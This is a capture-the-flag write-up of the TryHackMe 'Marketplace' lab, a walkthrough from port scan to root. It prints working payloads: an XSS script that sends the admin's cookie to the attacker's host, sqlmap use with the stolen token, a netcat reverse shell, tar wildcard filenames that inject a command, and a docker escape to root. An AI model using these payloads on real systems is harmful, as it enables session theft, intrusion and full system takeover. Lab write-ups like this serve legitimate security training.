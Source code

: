 # Recon
```
sudo nmap -sV -sC -O -p- -oN nmap.txt -Pn 10.10.73.172
```
<img src ="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Marketplace/assets/1.png">

# Enumeration
We will start by browsing the website on port 80. We are welcomed by a website which shows us two messages of michael and jake. We tried login in as both users with simple passwords, but without any luck. Also tried if i could use SQL injection on the password field:
```
' OR 1=1;--
```
None of the above worked. But what i could do was create a new account (test:test) and add new messages. These were vulnerable to XSS attack:
```js
<script>alert('XSS');</script>
```
<img src ="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Marketplace/assets/2.png">

<br>
I got kinda stuck for a moment. Not sure how we could abuse the fact that the website has a XSS vulnerability. I found out that we can report messages to a admin. We could then try to steal his cookie. After some searching around i found a usefull script that could help me: XSS-cookie-stealer.py.

> Download from https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py

Change the listening host in the script and run it. I added the following script as a message and reported it so it would be checked by an admin.
```js
<script>setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.9.1.79:8888/?"+document.cookie},1010)</script>
```

> I used the script from JSshell.
>https://www.kitploit.com/2020/06/jsshell-javascript-reverse-shell-for.html
https://github.com/shelld3v/JSshell

We got the admin cookie:
<img src ="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Marketplace/assets/3.png">

After changing the cookie in FireFox (under Web Developer ->Storage Inspector -> Cookies) we now have access to the admin page.
<img src ="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Marketplace/assets/4.png">

As I browse around the admin panel i spot SQL queries on the different users:
```
http://10.10.73.172/admin?user=1
```
We could try if the website is vulnerable to SQL injection. We'll have to add the admin cookie as parameter:
```
sqlmap -u "http://10.10.73.172/admin?user=1" --cookie='token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NDI3NjQ3ODN9.QOwcf_d5Dc8HqridxucamgHW0vhlZMLC770K24YHBoU' -dump --technique=U --delay=2
```

We get hashes from users but i was unable to crack them.
<img src ="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Marketplace/assets/5.png">

Spotted a message with a password:
<img src ="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Marketplace/assets/6.png">
```
@b_ENXkGYUCAv3zJ
```

# Initial foothold
Let's try to connect with SSH with the known usernames and this password:
```
ssh jake@10.10.172.147
```

We got a shell and got user. User michael didn't work.

# Privilege escalation
With ```sudo -l``` we spot a script that michael can run with sudo rights:
<img src ="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Marketplace/assets/8.png">

I knew there was a way to exploit the wildcard in tar for privilege escalation.
> Read this post: https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.2.169 4444 >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```


But running the script with ```sudo -u michael /opt/backups/backup.sh``` command give me an error so I decided to move the backup.tar to bk.tar and again run this command because on backup.tar only jake has privileges so after I changed the backup.tar to bk.tar. I again run the command  and this time I got a reverse connection as user michael.

This user is also in the docker group. Searched GTFOBin and found:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
We are now root



